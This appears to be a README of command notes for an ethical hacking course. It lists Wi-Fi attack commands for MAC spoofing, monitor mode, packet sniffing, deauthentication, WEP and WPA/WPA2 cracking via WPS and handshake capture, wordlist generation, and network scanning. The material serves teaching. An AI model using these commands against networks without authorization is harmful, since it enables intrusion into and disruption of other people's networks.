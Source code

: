 # Learn Ethical Hacking From Scratch with Zaid Sabih
Here are the commands that will be used in the course
## Network
### Change MAC Address
* Get the interface down
  * `ifconfig wlan0 down`
* Use macchanger
  * `macchanger --random wlan0`
* Get the interface up
  * `ifconfig wlan0 up`
### Change Wireless Card Mode
#### Method 1
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Stop Monitor Mode
  * `airmon-ng stop wlan0mon`
#### Method 2
* Get the interface down
  * `ifconfig wlan0 down`
* Change Mode
  * `ifconfig wlan0 mode monitor`
* Get the interface up
  * `ifconfig wlan0 up`
#### Method 3
* Get the interface down
  * `ifconfig wlan0 down`
* Kill Process
  * `airmon-ng check kill`
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Restart Network Manager
  * `service NetworkManager restart`
### Packet Sniffing
* Start Sniffing
  * `airodump-ng wlan0mon`
* Sniff In A Specific Network
  * `airodump-ng --channel <network channel> --bssid <network bssid> --write <file-name> wlan0mon`
* Deauth Attacks
  * `aireplay-ng --deauth <num-of-packets> -a <network bssid> -c <target bssid> wlan0mon`
### Crack WEP
#### Busy Network
* Start airodump-ng in the target
* Crack
  * `aircrack-ng <network-file>`
#### NOT Busy Network
* Fake Auth
  * `aireplay-ng --fakeauth 0 -a <network bssid> -h <your bssid || MAC> wlan0mon`
* Packet Injection
  * `aireplay-ng --arpreplay -b <network bssid> -h <your bssid || MAC> wlan0mon`
### Crack WPA/WPA2
#### With WPS
* Check if the network has WPS
  * `wash -i wlan0mon`
* Attack
  * `reaver -b <network bssid> -c <network channel> -i wlan0mon`
#### Without WPS
* Start airodump-ng in the target
* Deauth a client to capture the WPA Hanshake
* Crack the Key
  * `aircrack-ng <handshake-file> -w <word-list>`
#### Create a Wordlist
`crunch <min-length> <max-length> <characters> -o <file-name> -t <pattern>`
### Information Gathering
After authenticating to a network you gather information about it.
* Find your internal IP
  * `ifconfig wlan0`
* Using Netdiscover
  * `netdiscover -i wlan0 -r <network internal IP>.1/24`
* Using Autoscan
  * download [Autoscan](http://autoscan-network.com/download)
  * add 32bit compatibility `dpkg --add-architecture i386`
  * `apt-get update`
  * download and install library `apt-get install libc6:i386`
  * install Autoscan in the terminal running `./<downaloaded file>`
  * run Autoscan
* Using Nmap
  * `zenmap`
  * in Target put `<network internal IP>.1/24`
  * play arround with Profile
